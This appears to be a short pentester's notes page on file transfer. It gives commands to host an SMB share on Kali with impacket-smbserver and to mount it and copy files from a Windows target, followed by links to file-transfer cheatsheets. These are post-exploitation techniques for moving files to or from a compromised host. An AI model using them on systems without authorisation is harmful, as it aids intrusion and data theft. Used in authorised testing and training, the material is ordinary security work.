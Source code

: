 # File transfer

## Windows

### SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```



## Linux



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html